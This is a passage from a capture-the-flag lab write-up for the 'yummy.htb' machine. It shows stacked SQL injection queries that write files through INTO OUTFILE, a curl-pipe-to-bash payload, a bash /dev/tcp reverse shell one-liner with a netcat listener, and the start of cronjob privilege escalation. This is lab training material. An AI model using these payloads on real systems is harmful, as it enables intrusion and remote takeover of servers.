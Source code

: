 When the **dbmonitor.sh** script sorts the files to find the latest version, my file will be recognised as the latest version due to the special characters **"___"**.

##### SQLi Queries:
1. Query to put arbitrary data into **dbstatus.json**\
Plaintext: **`; select "nothing;" INTO OUTFILE '/data/scripts/dbstatus.json';`**\
URL Encoded: **`%3b++select+"nothing;"+INTO+OUTFILE++'/data/scripts/dbstatus.json'+%3b`**

2. Query to write shell script into **fixer-v___**\
Plaintext: `; select "curl <ip address>/rev.sh|bash;" INTO OUTFILE '/data/scripts/fixer-v___';`\
URL Encoded: `%3b++select+"curl+<ip address>/rev.sh+|bash%3b"+INTO+OUTFILE++'/data/scripts/fixer-v___'+%3b`

##### Steps for exploitation:
1. Create a reverse shell .sh script on my local machine\
    `echo "bash -c 'bash -i >& /dev/tcp/<ip address>/<port> 0>&1'" > rev.sh`

2. Start a netcat listener on the port used in the reverse shell\
    `nc -nvlp <port>`

3. Start a Python HTTP server to serve the reverse shell\
    `python3 -m http.server 80`

4. Run the first SQLi query, whilst on the **/admindashboard** with the forged JWT, to write arbitrary data to **dbstatus.json**.\
`http://yummy.htb/admindashboard?s=aa&o=ASC%3b++select+"nothing;"+INTO+OUTFILE++'/data/scripts/dbstatus.json'+%3b`

5. Run the second SQLi query, whilst on the **/admindashboard** with the forged JWT, to write the shell script to **fixer-v___**.\
`http://yummy.htb/admindashboard?s=aa&o=ASC%3b++select+"curl+<ip address>/rev.sh+|bash%3b"+INTO+OUTFILE++'/data/scripts/fixer-v___'+%3b`

I then waited for the **dbmonitor.sh** cronjob to run, fetch the reverse shell script from my local machine:

![Reverse Shell Request](images/mysql_revshell_http_req.png)

Then execute the reverse shell to get a callback on my listener:

![mysql User Reverse Shell](images/mysql_revshell.png)

## Priv-Esc to www-data
The cronjob script `/data/scripts/app_backup.sh` is writable by the mysql user. This allowed me to replace the script with my own reverse shell.\
I created a hidden directory in the **/tmp** directory named **.tools** to store my reverse shell and other tools I may need.
